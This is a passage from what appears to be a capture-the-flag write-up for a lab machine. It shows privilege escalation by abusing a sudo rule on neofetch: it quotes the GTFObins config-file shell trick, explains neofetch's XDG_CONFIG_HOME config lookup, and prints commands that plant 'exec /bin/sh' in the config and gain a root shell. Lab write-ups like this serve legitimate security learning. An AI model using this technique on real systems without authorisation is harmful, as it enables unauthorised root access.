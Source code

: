 Running it with `sudo` shows root as the user:

![image-20220603173959851](https://0xdfimages.gitlab.io/img/image-20220603173959851.png)

### Shell

#### GTFObins

GTFObins has a [page](https://gtfobins.github.io/gtfobins/neofetch/) for
`neofetch`, which shows getting a shell by creating a temporary config file
and executing with that config:

    
    
    TF=$(mktemp)
    echo 'exec /bin/sh' >$TF
    neofetch --config $TF
    

The `sudo` rule prevents my specifying a different config. But I can use the
default config location (which was slightly spoiled by the cron reverting that
I noticed earlier.)

#### Config Location

The `neofetch` [docs](https://github.com/dylanaraps/neofetch/wiki/Customizing-
Info#config-file-location) have a section on “Config File Location”, which say
it’s `${HOME}/.config/neofetch/config.conf`. That’s actually slightly
misleading. Looking at the [source
itself](https://github.com/dylanaraps/neofetch/blob/master/neofetch#L4775-L4797),
there’s a `get_user_config()` function that tries to load a config from:

  * a location given with `--config`
  * `${XDG_CONFIG_HOME}/neofetch/config.conf`
  * `${XDG_CONFIG_HOME}/neofetch/config`
  * nowhere if `$no_config` is set

If it fails all those, it copies the default config from into
`${XDG_CONFIG_HOME}/neofetch/config.conf`.

At the very top of the file, it sets
`XDG_CONFIG_HOME=${XDG_CONFIG_HOME:-${HOME}/.config}`. That means if
`XDG_CONFIG_HOME` isn’t set, it will set it using the `$HOME` variable, which
explains the documentation.

#### Exploit

I’ll write the `exec` line from GTFObins into the config:

    
    
    thomas@meta:~$ echo 'exec /bin/sh' > .config/neofetch/config.conf 
    thomas@meta:~$ XDG_CONFIG_HOME=~/.config sudo neofetch
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # bash
    root@meta:/home/thomas#
    